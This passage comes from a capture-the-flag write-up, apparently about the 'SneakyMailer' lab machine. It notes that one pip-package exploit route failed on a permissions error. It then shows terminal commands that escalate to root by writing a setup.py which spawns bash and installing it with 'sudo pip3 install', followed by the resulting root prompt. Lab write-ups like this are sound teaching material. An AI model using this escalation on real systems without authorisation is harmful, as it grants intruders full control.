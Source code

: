 For this exploit, we are unable to exploit this vulnerability by doing a pip install of the pypii package as we would require a .pip directory and we do not have the permissions to create the directory.

Also, we realize that the pypi package is removed from the index very quickly. By the time we try to fetch the pypi package using pip install, the package would have been removed and the exploit might not be plausible.
```
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ mkdir .pip
mkdir .pip
mkdir: cannot create directory ‘.pip’: Permission denied
```

### Privilege Escalation by breaking out of restricted environment
Another way of escalating our privileges to root is by breaking out of the restricted environments by spawning an interactive system shell

```
low@sneakymailer:/$ TF=$(mktemp -d)
TF=$(mktemp -d)
low@sneakymailer:/$ echo "import os; os.execl('/bin/bash', 'bash', '-c', 'bash <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
echo "import os; os.execl('/bin/bash', 'bash', '-c', 'bash <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:/$ sudo pip3 install $TF
sudo pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.eGtZCfqCey
root@sneakymailer:/tmp/pip-req-build-3kiddbs6# 
```
